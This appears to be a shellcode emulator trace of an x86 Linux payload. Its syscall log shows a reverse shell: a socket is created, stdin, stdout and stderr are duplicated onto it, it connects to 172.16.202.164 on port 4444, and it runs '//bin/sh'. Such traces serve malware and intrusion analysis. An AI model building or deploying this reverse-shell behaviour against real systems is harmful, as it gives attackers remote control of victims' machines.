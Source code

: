 ```sh
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417040
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] B00B                            mov al,0xb
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417042
[emu 0x0x53e1f0 debug ] eax=0x0000000b  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] CD80                            int 0x80
execve
int execve (const char *dateiname=00416fa6={//bin/sh}, const char * argv[], const char *envp[]);
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417044
[emu 0x0x53e1f0 debug ] eax=0x0000000b  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 0000                            add [eax],al
cpu error error accessing 0x00000004 not mapped

stepcount 42
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417046
[emu 0x0x53e1f0 debug ] eax=0x0000000b  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = -1530261332 (host=172.16.202.164);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
```